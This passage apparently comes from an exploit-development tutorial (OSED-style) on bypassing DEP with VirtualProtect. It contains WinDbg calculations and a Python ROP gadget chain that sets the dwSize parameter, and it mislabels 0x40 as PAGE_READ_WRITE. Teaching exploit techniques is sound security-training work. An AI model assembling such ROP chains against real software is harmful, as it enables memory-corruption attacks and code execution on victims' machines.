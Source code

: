 ```C
BOOL WINAPI VirtualProtect(          =>    A pointer to VirtualProtect()
  _In_   LPVOID lpAddress,           =>    Return Address (Redirect Execution to ESP)
  _In_   SIZE_T dwSize,              =>    dwSize up to you to chose as needed (0x1001)
  _In_   DWORD flNewProtect,         =>    flNewProtect (0x40)
  _Out_  PDWORD lpflOldProtect       =>    A writable pointer
);
```

Now, let's patch the dwSize, which in this case, must be lenght of the memory area we need, **here is differente than VirtualAlloc API**, have that in mind and read the documentation, let's put 1001. We'll now use 0x1000 because it contains Null Bytes even on the neg form.

```
0:000> ?0x1000
Evaluate expression: 4096 = 00001000
0:000> ?0x1001
Evaluate expression: 4097 = 00001001
0:000> ?0x0 - 0x1000
Evaluate expression: -4096 = fffff000
0:000> ?0x0 - 0x1001
Evaluate expression: -4097 = ffffefff
```

```py
## INC 4 INC, ALIGN STACK
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
## POP -1001 IN EAX
0x64b4fa38,  # pop eax; ret;
0xffffefff,  # -1001
## NEG -1001, TO BECOME 1001
0x68cef5b2,  # neg eax; ret;
## WRITE EAX IN ECX (0x48484848)
0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
```

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/dwsize-0x48.gif)

Okay, now let's go to the flNewProtect.

# Patch flNewProtect

It must be 0x40, because it's the new memory property, which is PAGE_READ_WRITE.

It's going to be almost the same than before, the only diference is that is going to be 0x40 not 0x10001

```
0:000> ?0x40
Evaluate expression: 64 = 00000040
0:000> ?0x0 - 0x40
Evaluate expression: -64 = ffffffc0
```
